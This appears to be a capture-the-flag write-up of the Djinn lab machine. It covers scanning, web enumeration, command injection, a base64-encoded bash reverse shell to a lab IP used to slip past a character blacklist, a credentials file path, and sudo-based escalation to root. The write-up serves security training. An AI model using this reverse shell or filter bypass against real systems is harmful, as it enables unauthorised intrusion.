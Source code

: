 Djinn - Copiar

## Methodology and summary
## Table of Contents
1. [Information Gathering]()
	1.1. [Discovery host]()
	1.2. [Service Enum]()
	1.3. [Web port 7331]()
		1.3.1. [Enum web content]()
		1.3.2. [Genie page]()

2. [Exploitation with bypass filter)]()

3. [ Post-exploitation (crontab abuse)]()
	3.2. [Nitish user]()
	3.3. [Basic bin analisys and shell]()
	3.4. [Getting root](0)


# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![f84de650feb2a1309625aaff4adfb83d.png](./_resources/65c9ec4d9d6e436788affd3d537225e8.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.129 -oN full_service_enum-sC.txt`
![0dfa4145e322dba95aa646e7848b2736.png](./_resources/e718053a0f39427195f3cdb2b63156cd.png)
![4d9ee0e7c513b63ab9e43920753b0cfa.png](./_resources/fa593ae22bce4d649b5ca31f14f7d272.png)

`nmap -sV -sU -F 192.168.196.129 -oN udp-sC-sV.txt`

## 1.3 Web port 7331
### 1.3.1 Enum web content
`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50 -f -o info2.txt` <- with added slashs, it don't returns results.
`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50`
![137c31d8c64c55e91dc55f8509ba7b28.png](./_resources/2c1abbb4f93b4766a582e39cf03f966c.png)

### 1.3.2 Genie page
![73ee3a1a033ca9c5d2d52b4318328c7c.png](./_resources/d1b4456acb9a46668dbf48e7d859be44.png)

### 1.3.3 Wish page
![4fe4d5bc99c2ef38bb722919db346e2c.png](./_resources/cd4601967aa149438cc73d58f44a578e.png)
What is typed here is interpreted as linux terminal commands.
![f6b3387328509646f7c9b061e16361b3.png](./_resources/8286b0d038d34ef2ae002ccb6cfdef7a.png)
And returns as paragraph:
![e2f0685e61fb2338ae0e8c44ba9a337f.png](./_resources/c38985976d964523baa9f9f8d507f11e.png)

At this point, we cag get a reverse shell with python.


# 2 Exploitation with bypass filter
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
All reverse shells were blocked. Apparently the "/" character is identified and blocked.

An attempt to bypass by base64 encoding worked.
`echo "bash -i >& /dev/tcp/192.168.196.121/4446 0>&1" | base64` <- on kali linux
`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE5Ni4xMjEvNDQ0NiAwPiYxCg==" | base64 -d | bash` <- web target

![c926b53dcca77327de261371bdd5ae94.png](./_resources/7de7bf58eb6d426fa8781804e3fa845d.png)


# 3 Post-exploitation
![b383c43dd66b0db592da7b1f6cf54729.png](./_resources/8bfeb1670f7c4f579109be9dc515a1d4.png)
![07574321ad81f588af3baec59f7dd79e.png](./_resources/ddd5e85a4d234e808e4253af4a144dbf.png)
Here we can see the blocking method used, a blacklist.

Also there is a path with creeds:
`/home/nitish/.dev/creds.txt`

## 3.1 Nitish user
![aaf0cb7d10de10a197e5dacca4a33986.png](./_resources/13541d77403a41089cfe9d63609e82de.png)

## 3.2 Sam user
LinEnum.sh returns some good information:
![1edc98a678d34d2b5a4429915af11012.png](./_resources/a14c936000604e24be4d02ea01b1aac2.png)

![9ee8cb7829679ad52076e567d0bbc42e.png](./_resources/42142b9985ac4cd2a84fb49737257f7a.png)
![e8c813fb3c268fec928ddf195c0bc9c3.png](./_resources/5a720de76a2646f09b6f47939d7cdeb4.png)

![6f0504c7d3117be56275b846c57a04a4.png](./_resources/9131bcfeea654d8d83a11b9fddda923f.png)

After try different methods to get shell, none results.

### 3.2.1 Basic bin analisys and shell
The first way is to use the `strings` command to get some information. For that you need to download the binary to the Kali machine and use the command:
`strings genie`
![74bc7100322fa43b70786f2eafb09b79.png](./_resources/1f8738bdaf5348a58704eefb7ae629fa.png)

`sudo -u sam /usr/bin/genie -cmd test`
![7edf8421a3b7b63bb92645dd7d352d93.png](./_resources/ee6c7ca98ef2498ca964fb80bee54383.png)

## 3.3 Getting root
![3695c6c16ce44f8dfad4116e6bb3b6b7.png](./_resources/7833d0bbe56d4d6d849a59c6be42c398.png)
What works here, was set the option `2` and after type `num` (apparently a variable). Done, it's possible get root.
![1e94958da014e596d207797e8f0ccf28.png](./_resources/79dba6701e5d423cb26319b0efb2b889.png)
